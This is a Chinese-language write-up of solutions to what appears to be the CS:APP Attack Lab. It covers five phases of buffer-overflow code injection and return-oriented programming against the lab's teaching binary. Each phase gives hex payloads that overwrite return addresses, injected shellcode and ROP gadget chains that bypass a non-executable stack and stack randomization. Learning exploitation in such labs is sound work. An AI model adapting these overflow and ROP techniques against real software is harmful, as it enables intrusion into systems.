

## preface
- 这个lab有5个实验, 分为两大部分: 1. code injecton attacks(3个实验); 2. return-orientied programming (两个实验), 下面分别称之为phase1到5
### 几个函数


1. touch1: 没参数, call了这个即可
2. touch2: 需要把cookie作为参数传入
3. touch3: 把cookie的字符串形式存在一个地方(也就是说打印出来显示为cookie的字符串), 把这个字符串的首地址传入
4. test: 整个实验的主程序. test里面要call getbuf
5. getbuf: 这个程序里面有个Gets
6. Gets: 这个函数先把刚进入时的rsp(这个值记为A)往下减少40bytes, 然后从rsp开始不断写入用户输入的数据(并非碰到ASCII码为0的字符就结束了, 而是一直读, 直到文件末尾)
7. hexmatch: 把传入touch3的地址的字符串和cookie的正确的字符串形式比较. 只有一个参数, 即字符串地址. 里面实际上是用strncmp来比较9个字符.

### 第二部分里面farm的所有可用的mov/pop类型gadget
```cpp
movq rax,rdi
pop rax
pop rsp;    movl rax,rdx;
movq rsp,rax
movl rcx,rsi
movl rdx,rcx
movl rsp,rax
```

## 解答

### phase1
- **requirements**: 要求自己注入代码, 在getbuf执行完成之后调用touch1即可.
- rsp往下减少了40 bytes, 那么就写40个无用值, 然后把touch1的地址写到A处, ret后即可call touch1
```cpp
11 22 33 44 55 66 77 88 99 aa 
11 22 33 44 55 66 77 88 99 aa 
11 22 33 44 55 66 77 88 99 aa 
11 22 33 44 55 66 77 88 99 aa 
c0 17 40 00 //addr of touch1
```
### phase2
- **requirements**: 要求调用touch2, 并且把cookie作为参数传进去.
- 其实一开始的时候我不知道怎么做, 因为我觉得stack上的东西是不能执行的. 但是后来发现如果不能执行那这个code injection没法继续了. 所以才知道这个是要自己写代码然后放到栈上执行.
- 我用的是`jmp`到`touch2`. 自己写个汇编然后转成16进制. 但是一开始的时候失效了(一开始我直接写`jmp *addr`). 后来在网上查资料才知道`jmp`加一个地址转成16进制并不是原模原样转换, 而是转换成了跳转到**相对地址**, 而这个**相对地址**是和每个程序特定相关的, 所以我不能把自己的写得汇编直接粘贴到这里来用.
- 为了解决相对地址的问题, 我把地址存到寄存器rax然后往rax跳, 这样就不会变成相对地址了. (虽然正规答案是用ret)

```
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	48 c7 c0 ec 17 40 00 	mov    $0x4017ec,%rax
   e:	ff e0                	jmpq   *%rax
```
在Gets的ret时反对到我写的代码的开头, 就可以实现执行了 


```cpp
11 22 33 44 55 66 77 88 99 aa 
11 22 33 44 55 66 77 88 99 aa 
11 22 33 44 
48 c7 c7 fa 97 b9 59 //这是我的代码, 位于0x5561dc90
48 c7 c0 ec 17 40 00
ff e0
90 dc 61 55 00//我的代码的地址
```

### phase3
- 这个要求调用`touch3`并且把字符串地址输入.
- 我第一次是把cookie存储到A-40起始之处, 但是发现A-40开始的8bit被fs保护数据修改了. 后来调用touch3里面的`hexmatch`的时候, A-8的8个byte存了touch3返回地址, 后面三个8byte被push了3个寄存器. 然后才调用`hexmatch`. 也就是说A-40到A这40个bit在比较字符串之前已经全部被修改过了. 
- 第二次尝试时, 我把cookie放到了rbx, 它被push到了A的上面
但是在strncmp里面, 比较的个数是9, 也就意味着我保存的字符串不能长度为8, 否则不可能比较一致. rbx只能放8个byte, 失败
- 所以到最后, 成功的方法是, 在hexmatch里面保存到stack的3个寄存器里面, 选择2个连在一起的, 即rbp和r12(rbx无法控制, 因为touch3和hexmatch会修改rbx).然后让这两个寄存器连在一起构成一个字符串, 以求strncmp能相等


<center>执行hexmatch前一部分后的stack示意图</center>

我写的代码
```cpp
      0:          48 c7 c7 88 dc 61 55    movq    $1432476808, %rdi
       7:         48 bd 35 39 62 39 39 37 66 61   movabsq $7018357788218898741, %rbp
      11:         49 c7 c4 00 00 00 00    movq    $0, %r12
      18:         68 fa 18 40 00  pushq   $4200698
      1d:         c3      retq
```
 一共30个字节, rsp - 40为起始点之处. 其地址为(看下面的hex代码来观察位置)
       0x5561dca0 - 0x28 = 0x5561dc78
```cpp
48 c7 c7 88 dc 61 55
48 bd 35 39 62 39 39 37 66 61
49 c7 c4 00 00 00 00
68 fa 18 40 00
c3
11 22 33 44 55 66 77 88 99 aa /* fill gap 10 bytes */

78 dc 61 55 00 /* return address of the inserted exploited code */
```

### phase4
- 这个要重新实现phase2的内容, 但是这里已经进行了栈不可执行, 所以不能执行自己的代码了. 
-   用40个byte把东西都挤掉, 然后用找到的几个gadget实现传入参数(把东西从stack上pop出来然后移到rdi).
- 要写到stack的东西分别是0x4019ab,0x59b997fa,0x4019a2,0x4017ec(touch2的返回地址) 

11 22 33 44 55 66 77 88 99 aa 
11 22 33 44 55 66 77 88 99 aa 
11 22 33 44 55 66 77 88 99 aa 
11 22 33 44 55 66 77 88 99 aa 
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00


### phase5
- 这个题实际上不查答案很难做出. 

- 根据说明我以为只需要用给出的pop mov 和ret就行了.一直以为不能用加法, 所以想了半天想不出

- 于是上网查. 看了两种答案, 一种是用一个add操作来实现最后访问数据

- 还有一种, 是用`4019d6:	48 8d 04 37          	lea    
(%rdi,%rsi,1),%rax`这条指令来完成的加法

这个phase的问题的解题思路如下
- 这个phase使用了stack randomlization, 所以你是无法事先知道存储的string的绝对地址的.
- 既然无法得到绝对地址, 那么必须让程序自己给一个参照的地址, 即%rsp
利用movq %rsp, %xxx这条指令, 可以知道栈随机化后的一个相对地址
- 但是仅仅知道%rsp是没用的, 因为后面必然有ret. 一旦ret, 程序就会返回到当前rsp位置的地址. 那么这个rsp无法成为一个字符串的地址
- 所以必须使用加法, 先得到rsp, 这个rsp的数据不用来存储字符串
- 字符串存放到rsp上面特定距离的位置, 然后用此时的rsp加上事先计算好的特定距离, 就得到了string地址

```cpp 
   11 22 33 44 55 66 77 88 99 aa 
   11 22 33 44 55 66 77 88 99 aa 
   11 22 33 44 55 66 77 88 99 aa 
   11 22 33 44 55 66 77 88 99 aa 
   06 1a 40 00 00 00 00 00 /* addr of 1th */
   a2 19 40 00 00 00 00 00 /* addr of 2nd */
   ab 19 40 00 00 00 00 00 /* addr of 3rd */
   48 00 00
   00 00 00 00 00 /* offset */ 
   dd 19 40 00 00 00 00 00 /* addr of 4th */ 
   69 1a 40 00 00 00 00 00 /* addr of 5th */ 
   13 1a 40 00 00 00 00 00 /* addr of 6th */ 
   d6 19 40 00 00 00 00 00 /* addr of 7th */ 
   c5 19 40 00 00 00 00 00 /* addr of 8th */ 
   fa 18 40 00 00 00 00 00 /* addr of touch3 */ 
   35 39 62 39 39 37 66 61 00 /* string of cookie */
```
各个gaget如下
```
1. mov rsp, rax
2. mov rax, rdi
3. pop rax
4. mov rax, rdx
5. mov rdx, rcx
6. mov rcx, rsi
7. lea (rdi, rsi, 1), rax
8. mov rax, rdi
```